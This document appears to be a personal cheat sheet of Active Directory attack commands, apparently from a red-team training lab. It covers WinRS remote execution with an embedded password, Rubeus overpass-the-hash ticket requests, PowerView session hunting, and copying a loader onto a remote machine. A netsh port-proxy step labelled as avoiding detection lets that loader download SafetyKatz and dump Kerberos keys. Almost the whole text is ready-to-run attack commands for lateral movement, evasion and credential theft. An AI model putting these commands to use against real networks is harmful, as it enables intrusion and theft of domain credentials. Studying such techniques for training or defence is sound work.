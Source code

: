 ### **WINRS**
```powershell
winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```
```powershell
winrs -r:<MACCHINA> cmd
```
### **OVERPASS THE HASH**
```powershell
rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
```powershell
Rubeus.exe asktgt /user:svcadmin /aes256:<HASH> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
### **Other Sessions Opened**
```powerview
Find-DomainUserLocation
```
![[Pasted image 20231018164427.png]]
Connect Using Win-rs
### **Copy from a machine to another**
```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\<R MACHINE>\C$\Users\Public\Loader.exe
```

### **Avoid detection while downloading**
```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<IP>"
```
Download and use program
```powershell
$null | winrs -r:<MACCHINA> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```